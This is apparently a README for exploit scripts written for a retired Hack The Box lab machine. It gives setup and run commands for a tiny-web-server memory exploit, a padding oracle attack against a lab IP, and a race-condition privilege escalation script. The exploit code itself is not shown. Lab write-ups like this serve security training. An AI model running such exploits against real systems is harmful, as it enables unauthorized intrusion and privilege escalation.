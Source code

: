 # tiny-web-server Exploit  

## Requirements

- [pwntools](https://github.com/Gallopsled/pwntools)
- libc downloaded from target (`targets-libc`)
- tiny-web-server downloaded from server (`tiny`)

## Execution

```
git clone https://github.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/smasher
python tiny-web-server-exploit.py
```

# Padding Oracle Buster 

## Requirements

- [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)

## Execution

```
git clone https://github.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/smasher
python smasher-padding-oracle.py -b 16 'irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==' 10.10.10.89
```

# Race Condition Privesc

## Execution

Upload script to target or type it out, etc...

```
git clone https://github.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/smasher

... get escalate.sh to target ...

chmod u+x escalate.sh
./escalate.sh 
```